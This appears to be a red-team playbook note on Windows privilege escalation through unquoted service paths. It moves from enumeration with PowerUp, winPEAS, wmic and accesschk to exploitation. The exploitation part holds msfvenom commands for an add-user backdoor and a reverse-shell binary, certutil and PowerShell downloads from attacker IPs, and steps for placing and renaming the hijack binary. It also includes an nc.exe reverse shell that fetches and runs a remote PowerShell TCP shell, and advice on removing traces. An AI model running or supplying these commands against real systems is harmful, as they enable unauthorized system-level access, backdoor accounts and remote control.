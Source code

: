 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools
	https://github.com/JoelGMSec/Invoke-Stealth
- PowerUp Obfuscated  > GitHub Fetch Script > Execute! 
	[RT GitHub: PScriptsObs: Scripts Obfuscated via Chameleon](https://github.com/raghavtalwar/PScriptsObs/)
```markdown
# PS Scripts
*Winpeas*
.\winPEAS.exe quiet servicesinfo
*PowerUp*
powershell -c "Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 -OutFile PowerUp.ps1"

powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"

powershell -c "Import-Module ./PowerUp.ps1; Write-ServiceBinary -Name SalesFarce -Path ./Sales.exe -Command '<POWERSHELL_STAGERCODE>'"

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```markdown
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary
icacls "<path>"
	**F**:  Full control
	**M**:  Modify
	**RX**: Read and execute
	**R**:  Read-only
	**W**:  Write-only
```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the sales as a base64 BLOB and convert to EXE 
```markdown
# Create service binary via MsfVenom or PowerUp Write-ServiceBinary 
base64 Sales.exe > Sales.pem

python3 -m http.server 8000

certutil -urlcache -split -f http://10.254.252.3:8000/Sales.pem c:\SalesFarce\sales.pem

del c:\SalesFarce\Sales.pem
```
###### Note: Create the binary by supplying the stager > If you want executable to communicate with your C2 by exploiting Unquoted Service Path, 

![[Pasted image 20240331022735.png]]
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

###### Red Team Tip | Operator
It's best to avoid writing files to disk, sometimes it is necessary. In those cases, keep track of those files that will become indicators of compromise. 
- Send the task to delete the files when you don't need them, but always do a directory listing to make sure the file did get deleted.
- Example: Once you get your new elevated agent send this final command from your unprivileged agent to clean up the binaries you placed on the disk.
	- `del c:\SalesFarce\Sales.exe`

#### Notes | Bonus
- Create Links to this Page! 

##### Transfer the Reverse Shell & !!IMP NOTE!!
- Example Full Path - 
    + `C:\Program Files\Unquoted Path Service\Common Files\jerry.exe`
- An attacker can exploit this vulnerability by placing a malicious executable named `Program.exe`, `Files.exe`, or `Unquoted.exe`
- Place Reverse Shell, as `Unquoted.exe` under Program Files Folder
- Or, Place `Common.exe` under the Unquoted Path Service Folder
- Thus, Place it one Dir < BEFORE > as when Service Control Manager
- SCM starts this service, it will look at the following PATH
    + It will run the EXE that it will FIND.

Thus, windows primarily searches for an executable file based on the path specified in the service's configuration, not by the service name.

##### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
##### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"

##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!